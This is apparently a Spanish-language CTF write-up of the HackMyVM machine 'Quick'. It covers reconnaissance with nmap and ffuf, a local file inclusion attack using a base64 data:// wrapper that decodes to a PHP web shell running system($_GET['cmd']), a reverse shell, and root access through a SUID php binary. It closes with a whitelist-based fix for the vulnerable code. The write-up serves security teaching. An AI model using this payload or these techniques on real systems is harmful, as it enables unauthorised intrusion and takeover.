 ```yaml
---
title: 'Quick'
date: 2024-02-05T20:04:07-03:00
permalink: /posts/hackmyvm/:title/
categories: ["Writeups", "HackMyVm"]
tags: ['Linux', 'CTF', 'File Inclusion', 'PHP', 'PHP Wrapper', 'SUID']
image:
  path: /assets/img/hmvm/quick/quick-0.png
---
```


¡Hola, hacker! ¡Bienvenido a un nuevo post!

En este artículo, nos adentraremos en la resolución de la máquina [Quick](https://hackmyvm.eu/machines/machine.php?vm=quick) de la plataforma HackMyVM. Comenzaremos aprovechando un parámetro en la URL para obtener acceso al sistema mediante una reverse shell. Este parámetro se emplea para cargar diversas secciones del sitio, pero su validación no está siendo realizada de manera adecuada. Finalmente, nos aprovecharemos de un binario de `php` con permisos SUID para escalar nuestros privilegios.

## Reconocimiento

Comenzamos lanzando una traza ICMP a la máquina objetivo para comprobar que tengamos conectividad.

![Quick](/assets/img/hmvm/quick/quick-1.png)
_Reconocimento usando el comando ping_

Vemos que responde al envío de nuestro paquete, verificando de esta manera que tenemos conectividad. Por otra parte, confirmamos que estamos frente a una máquina Linux basandonos en el TTL (Time To Live).

## Enumeración

### Descubrimiento de puertos abiertos
Realizamos un escaneo con nmap para descubrir que puertos TCP se encuentran abiertos en la máquina víctima.

```bash
nmap -sS -p- --open --min-rate 5000 -Pn -n 20.20.20.12 -vvv -oG scanPorts
```

![Quick](/assets/img/hmvm/quick/quick-2.png)
_Descubrimiento de puertos abiertos_

> ver la [Cheatsheet](/cheatsheet/#22-nmap) para más detalle sobre los parámetros utilizados.
{: .prompt-info }

### Enumeración de versión y servicio

Lanzamos una serie de script básicos de enumeración propios de nmap, para conocer la versión y servicio que esta corriendo bajo los puertos abiertos.

```bash
nmap -sCV -p22,80 -vvv -oN targeted 20.20.20.12
```

![Quick](/assets/img/hmvm/quick/quick-3.png)
_Descubrimiento de versión y servicio con nmap_

> ver la [Cheatsheet](/cheatsheet/#22-nmap) para más detalle sobre los parámetros utilizados.
{: .prompt-info }

## Explotación

Accedemos al sitio web que se encuentra en ejecución en el puerto 80, donde nos encontramos lo siguiente:

![Quick](/assets/img/hmvm/quick/quick-4.png)
_Web Quick_

![Quick](/assets/img/hmvm/quick/quick-5.png)
_Web Quick_

Podemos notar que las diversas secciones del sitio web se cargan dinámicamente mediante el parámetro `page`. Esto se puede verificar al acceder directamente a alguno de estos archivos.

![Quick](/assets/img/hmvm/quick/quick-7.png)
_Web Quick - parámetro page_

También, podemos verficarlo haciendo un poco de web fuzzing.

```bash
ffuf -fw 219 -c -u 'http://20.20.20.12/index.php?page=FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```
![Quick](/assets/img/hmvm/quick/quick-6.png)
_Web Fuzzing - parámetro page_

Teniendo en cuenta lo anterior, podemos intentar leer archivos del sistema aplicando *Directory Path Traversal*.

```bash
http://20.20.20.12/index.php?page=../../../../../../../etc/passwd
```

![Quick](/assets/img/hmvm/quick/quick-8.png)
_Web Fuzzing - parámetro page_

Pero vemos que no tenemos éxito.

Si probamos aplicar un wrapper de php, por ejemplo: `php://filter/convert-base64.encode/resource=home` para leer el contenido de los archivos php, vemos que tampoco tenemos suerte. 

![Quick](/assets/img/hmvm/quick/quick-9.png)
_Web Fuzzing - parámetro page_

Al investigar sobre los wrappers en PHP, descubrí una técnica para ejecutar comandos en la máquina víctima mediante el wrapper `data://`.

Referencia: [File Inclusion/Path traversal](https://book.hacktricks.xyz/pentesting-web/file-inclusion#remote-file-inclusion)

```bash
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```

Esta línea de código PHP utiliza una URL de datos (data URI) para proporcionar datos directamente en el código PHP sin necesidad de acceder a un archivo externo.

- `data://`: Indica que se trata de una URL de datos.
- `text/plain`: Especifica el tipo MIME de los datos, en este caso, texto plano.
- `;base64`: Indica que los datos están codificados en Base64 para evitar problemas con caracteres especiales.
- `,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt`: Los datos codificados en Base64.

Después de decodificar, esto se traduce como:

```bash
echo 'PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+' | base64 -d;
<?php system($_GET['cmd']);echo 'Shell done !'; ?>>
```

![Quick](/assets/img/hmvm/quick/quick-11.png)
_Web Fuzzing - parámetro page_

![Quick](/assets/img/hmvm/quick/quick-10.png)
_Web Fuzzing - parámetro page_

Ahora que tenemos capacidad de ejecución de comandos, podemos ganar acceso al sistema.

Enviamos una reverse shell a nuestra máquina atancate por el puerto 4444.

![Quick](/assets/img/hmvm/quick/quick-12.png)
_Reverse shell_

Hacemos un tratamiento de la tty para tener una terminal más interactiva:

- `script /dev/null -c bash`
- CTRL + Z
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows <rows> columns <columns>`

Y de esta forma, ya podemos leer el flag de `user.txt`

![Quick](/assets/img/hmvm/quick/quick-13.png)
_user.txt_

## Escalación de privilegios

Al realizar una enumeración del básica del sistema, encontramos que el binario `/usr/bin/php7.0` es SUID.

![Quick](/assets/img/hmvm/quick/quick-14.png)
_SUID /usr/bin/php7.0_

Si hacemos una búsqueda en GTFOBins, nos encontramos con una forma de escalar nuestros privilegios en este contexto [GTFOBins - php](https://gtfobins.github.io/gtfobins/php/#suid).

![Quick](/assets/img/hmvm/quick/quick-15.png)
_GTFOBins - php_

Por lo tanto, procedemos a escalar nuestros privilegios.

![Quick](/assets/img/hmvm/quick/quick-16.png)
_Exploit SUID /usr/bin/php7.0_

Y por ultimo, leemos el flag de `root.txt`

![Quick](/assets/img/hmvm/quick/quick-17.png)
_root.txt_

## Extras

Antes de concluir el post, analizemos la parte del código vulnerable:

Vemos que no existe ninguna validación previa, más alla de forzar la extensión a `.php`.

Para validar este código, podemos hacer algo como lo siguiente:

```php
<?php
// Lista blanca de páginas permitidas
$allowedPages = ['home', 'about', 'contact', 'cars'];

// Si no se proporciona ninguna página, cargar la página predeterminada (home)
$page = isset($_GET['page']) ? $_GET['page'] : 'home';

// Manejar el caso en que la página solicitada no está permitida
if (!in_array($page, $allowedPages)) {
    http_response_code(403);
    die("Error 403: Acceso no permitido a esta página");
}

$filePath = __DIR__ . '/' . $page . '.php';

// Manejar el caso en que el archivo no existe
if (!file_exists($filePath)) {
    http_response_code(404);
    die("Error 404: Página no encontrada");
}

include($filePath);
?>
```
1. Se define una lista blanca de páginas permitidas (`$allowedPages`).
2. Se verifica si la página solicitada está en la lista blanca antes de incluir el archivo.
3. Se construye la ruta completa del archivo para incluir utilizando __DIR__ para obtener el directorio actual del script.
4. Se verifica si el archivo realmente existe antes de incluirlo.

Este enfoque ayuda a mitigar la posibilidad de LFI y brinda un control más estricto sobre las páginas permitidas.

De esta forma, concluimos el Writeup de la máquina Quick.

Espero que los conceptos hayan quedado claros. En caso de tener alguna duda, te invito a realizar nuevamente la máquina para afianzar tus conocimientos.

Gracias por tu lectura!

Happy Hacking!
